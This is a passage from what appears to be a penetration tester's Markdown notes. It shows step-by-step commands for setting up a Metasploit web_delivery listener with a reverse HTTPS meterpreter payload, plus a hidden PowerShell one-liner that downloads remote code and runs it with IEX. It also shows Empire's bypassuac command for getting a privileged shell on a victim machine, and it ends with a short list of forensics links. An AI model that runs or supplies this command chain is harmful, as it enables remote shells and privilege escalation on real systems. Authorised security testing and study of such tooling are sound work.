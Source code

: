 ### Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

### Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`* by it, indicating it is running w/elevated privs!!!

### Other resources:
* [Intercepting passwords with Empire and winning!](https://sensepost.com/blog/2016/intercepting-passwords-with-empire-and-winning/)

Forensics
--------
### Getting started / quick refs
A few links to check out:

* [System Resource Utilization Monitor](https://isc.sans.edu/forums/diary/System+Resource+Utilization+Monitor/21927/)

* [SANS Windows intrusion detection cheat sheet](https://pen-testing.sans.org/retrieve/windows-cheat-sheet.pdf)

* [Google Rapid Response Framework](https://github.com/google/grr-doc/blob/master/quickstart.adoc)

### Linux
* [Apache: Extending and Analyzing the Access Log](https://www.netnea.com/cms/apache-tutorial-5_extending-access-log/)
